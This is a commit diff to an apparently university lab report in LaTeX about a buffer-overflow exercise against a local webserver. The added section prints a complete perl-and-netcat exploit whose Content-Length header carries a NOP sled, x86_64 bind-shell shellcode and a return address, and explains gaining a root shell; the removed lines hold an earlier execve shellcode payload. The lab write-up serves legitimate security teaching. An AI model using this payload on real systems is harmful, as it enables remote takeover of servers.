

Before and after one commit to mfranzil-unitn/unitn-m-ot, a LaTeX document (04-bof/instructions/instructions.tex): two parts of pages 1 and 2 of 2 before the commit and two parts of pages 2 and 3 of 3 after it, joined at a grey line, cut so that both start at the same text, the shorter picture padded with empty space. Compiled offline with pdfLaTeX.

Commit message:
bof exercise final

```diff
--- a/04-bof/instructions/instructions.tex
+++ b/04-bof/instructions/instructions.tex
@@ -119,16 +121,43 @@ In the second shell, we can exploit the vulnerability as easily as sending an ar
 \section{Shellcode}
 
-It is additionally possible to exploit the vulnerability via injecting shell code in the Content-Length parameter (the path parameter is also vulnerable, although harder to exploit). In order to obtain the necessary parameters for a successful exploitation, I used \verb=gdb= on the \verb=webserver= executable, placing a breakpoint at line \verb=88= in order to learn the address of the \verb=rip= (return instruction pointer) address. For the shell code, I used the following one: \url{http://shell-storm.org/shellcode/files/shellcode-106.php}. The obtained script looked like this:
+It is additionally possible to exploit the vulnerability via injecting shell code in the Content-Length parameter (the path parameter is also vulnerable, although harder to exploit). In order to obtain the necessary parameters for a successful exploitation, I used \verb=gdb= on the \verb=webserver= executable, placing a breakpoint at line \verb=88= in order to learn the address of the \verb=rip= (return instruction pointer) address and gather information about the required number of NOPs.
+
+\begin{figure}[h!]
+  \centering
+  \includegraphics[width=0.9\textwidth]{drawable/info-frame.png}
+  \caption{Gathering information with \texttt{gdb}.}
+\end{figure}
+
+
+For the shellcode, I used the Python library \verb=pwntools= to generate a proper \verb=x86_64= Linux shellcode that binds a Dash shell to port \verb=8081=. The obtained script looked like this:
 
 \begin{code}{Code for the exploitation.}
-  perl -e 'print "POST \/ HTTP\/1.1\r\n
-  Content-Length: \x48\x31\xc0\x99\xb0\x3b\x48\xbf
-  \x2f\x2f\x62\x69\x6e\x2f\x73\x68\x48\xc1\xef\x08
-  \x57\x48\x89\xe7\x57\x52\x48\x89\xe6\x0f\x05"
-   . "A"x1097
-   . "\xd0\xf9\x5a\xf7\xff\x7f"
-   . "\r\n\r\n"' | nc -v -v -q 2 localhost 8080
+  perl -e 'print "POST \/ HTTP\/1.1\r\nContent-Length: " . "\x90"x500
+   . "\x6a\x29\x58\x6a\x02\x5f\x6a\x01\x5e\x99\x0f\x05\x52\xba\x01\x01\x01
+  \x01\x81\xf2\x03\x01\x1e\x90\x52\x6a\x10\x5a\x48\x89\xc5\x48\x89\xc7
+  \x6a\x31\x58\x48\x89\xe6\x0f\x05\x6a\x32\x58\x48\x89\xef\x6a\x01\x5e
+  \x0f\x05\x6a\x2b\x58\x48\x89\xef\x31\xf6\x99\x0f\x05\x48\x89\xc5\x6a
+  \x03\x5e\x48\xff\xce\x78\x0b\x56\x6a\x21\x58\x48\x89\xef\x0f\x05\xeb
+  \xef\x6a\x68\x48\xb8\x2f\x62\x69\x6e\x2f\x2f\x2f\x73\x50\x48\x89\xe7
+  \x68\x72\x69\x01\x01\x81\x34\x24\x01\x01\x01\x01\x31\xf6\x56\x6a\x08
+  \x5e\x48\x01\xe6\x56\x48\x89\xe6\x31\xd2\x6a\x3b\x58\x0f\x05"
+  . "\x90"x494 . "\x90\xfb\x5a\xf7\xff\x7f" . "\r\n\r\n"'
+   | nc -v -v -q 2 localhost 8082
 \end{code}
 
-This code makes a request whose Content-Length header first contains the shell code, then some random As - enough to overflow the buffer and barely touch the \verb=rip= registry - finally, the address of the start of the buffer and two \verb=CRLF=. However, I wasn't able to fully reproduce the vulnerability, due to repeated segmentation fault.
+\begin{figure}[h!]
+  \centering
+  \includegraphics[width=0.5\textwidth]{drawable/buffer-start-nop.png}
+  \includegraphics[width=0.5\textwidth]{drawable/buffer-mid-nop.png}
+  \includegraphics[width=0.5\textwidth]{drawable/buffer-end-nop.png}
+  \caption{Inspecting the shellcode with GDB (start of payload, start of shellcode, end of payload)}
+\end{figure}
 
+This code makes a request whose Content-Length header first contains some NOP padding, then the shell code, then some more padding - enough to overflow the buffer and barely touch the \verb=rip= registry - finally, the address of the start of the buffer and two \verb=CRLF=.
+
+After making the request, the now-compromised webserver will spawn a \verb=/bin/dash/= and bind it to port \verb=8081=. We can, again, connect to it with netcat. Once in, we can use \verb=/bin/bash -i= to spawn an interactive shell as root (since the webserver was run as root) and we have full access to everything.
+
+\begin{figure}[h!]
+  \centering
+  \includegraphics[width=0.5\textwidth]{drawable/connecting-to-bindshell.png}
+  \caption{Connecting to our shell.}
@@ -135,3 +170,4 @@ This code makes a request whose Content-Length header first contains the shell c
+\end{figure}
 
 \endgroup
 \end{document}
```
Also changed, not shown: 04-bof/instructions/drawable/buffer-end-nop.png (added), 04-bof/instructions/drawable/buffer-mid-nop.png (added), 04-bof/instructions/drawable/buffer-start-nop.png (added), 04-bof/instructions/drawable/connecting-to-bindshell.png (added), 04-bof/instructions/drawable/executing-new-program.png (added), 04-bof/instructions/drawable/info-frame.png (added), 04-bof/instructions/instructions.pdf, 04-bof/instructions/instructions.tex (8 more changed lines), 3 other files.
